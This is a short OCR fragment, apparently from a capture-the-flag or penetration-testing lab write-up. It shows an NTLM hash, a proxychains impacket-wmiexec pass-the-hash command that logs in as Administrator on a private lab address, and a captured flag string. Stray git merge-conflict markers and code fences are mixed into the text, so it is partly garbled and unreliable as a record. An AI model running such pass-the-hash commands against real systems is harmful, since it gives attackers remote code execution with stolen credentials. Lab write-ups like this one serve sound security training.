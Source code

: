 ```plain
=======
```bash
2c9d81bdcf3ec8b1def10328a7cc2f08
```

```bash
proxychains impacket-wmiexec -hashes 00000000000000000000000000000000:2c9d81bdcf3ec8b1def10328a7cc2f08 Administrator@172.22.8.15
```

[![](assets/1710465355-ef4575cc57ec16c08626f43cdd266ccb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095609-06ddccc2-e1a6-1.png)

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
flag{51a7b5a1-da5c-4198-9dcc-d2a52699af6c}
```
